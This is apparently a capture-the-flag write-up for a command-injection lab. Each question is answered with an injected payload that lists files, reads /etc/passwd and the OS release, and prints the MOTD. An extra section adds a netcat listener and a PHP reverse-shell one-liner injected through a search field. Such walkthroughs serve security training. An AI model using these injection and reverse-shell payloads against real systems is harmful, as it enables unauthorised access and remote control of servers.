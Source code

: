 # Task 5

### What strange text file is in the website root directory? <a href="#what-strange-text-file-is-in-the-website-root-directory" id="what-strange-text-file-is-in-the-website-root-directory"></a>

```
test; ls
```

#### Answer <a href="#answer" id="answer"></a>

drpepper.txt

### How many non-root/non-service/non-daemon users are there? <a href="#how-many-non-rootnon-servicenon-daemon-users-are-there" id="how-many-non-rootnon-servicenon-daemon-users-are-there"></a>

```
test; cat /etc/passwd
```

#### Answer <a href="#answer-1" id="answer-1"></a>

0

### What user is this app running as? <a href="#what-user-is-this-app-running-as" id="what-user-is-this-app-running-as"></a>

```
test; whoami
```

#### Answer <a href="#answer-2" id="answer-2"></a>

www-data

### What is the user's shell set as? <a href="#what-is-the-users-shell-set-as" id="what-is-the-users-shell-set-as"></a>

```
test; cat /etc/passwd |grep www-data
```

#### Answer <a href="#answer-3" id="answer-3"></a>

/usr/sbin/nologin

### What version of Ubuntu is running? <a href="#what-version-of-ubuntu-is-running" id="what-version-of-ubuntu-is-running"></a>

```
test ; cat /etc/os-release

or 

test ; lsb_release -a
```

#### Answer <a href="#answer-4" id="answer-4"></a>

18.04.4

### Print out the MOTD. What favorite beverage is shown? <a href="#print-out-the-motd-what-favorite-beverage-is-shown" id="print-out-the-motd-what-favorite-beverage-is-shown"></a>

```
test ; locate 00-header
test ; cat /etc/update-motd.d/00-header 
```

#### Answer <a href="#answer-5" id="answer-5"></a>

Dr Pepper

## EXTRA <a href="#extra" id="extra"></a>

### Spawn remote shell in that machine <a href="#spawn-remote-shell-in-that-machine" id="spawn-remote-shell-in-that-machine"></a>

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

1. On your machine

* Open a localport on your machine

```
nc -lvnp 9001
```

1. On vulnerable webpage

* Spawn this remote shell in the search input.

Replace `10.18.1.159` with your own VPN IP

```
test; php -r '$sock=fsockopen("10.18.1.159",9001);`sh <&3 >&3 2>&3`;'
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
